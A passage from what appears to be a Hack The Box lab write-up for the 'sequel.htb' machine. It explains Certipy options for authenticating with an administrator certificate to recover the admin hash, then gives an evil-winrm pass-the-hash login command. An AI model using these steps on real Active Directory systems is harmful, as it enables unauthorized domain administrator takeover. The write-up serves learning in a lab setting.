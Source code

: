 | Command Option            | Explanation  |
| :-------------------------| :-------------------------------------|
| certipy-ad auth | Uses Certipy to authenticate to Active Directory. |
| -pfx administrator.pfx | This specifies the PFX (Personal Information Exchange) certificate for authentication. |
| -domain sequel.htb | Ya'll know what this does. |


And now I got the administrator's hash. I could now log in as administrator using PtH attack.
![Desktop View](/ad-series-2/ss31.png)

```
evil-winrm -i <IP> -u "administrator" -H <Hash>
```

I am now logged in as administrator! From here on, just locate where the root flag is. I already got mine.
![Desktop View](/ad-series-2/ss32.png)

# Conclusion

This is how I understand on how to attack this machine. If you have any other ways or methods in compromising this machine, or even deeper explanation on how things work, I am open for feedback and discussion. So please feel free to reachout at `reacher@dracozona.com`.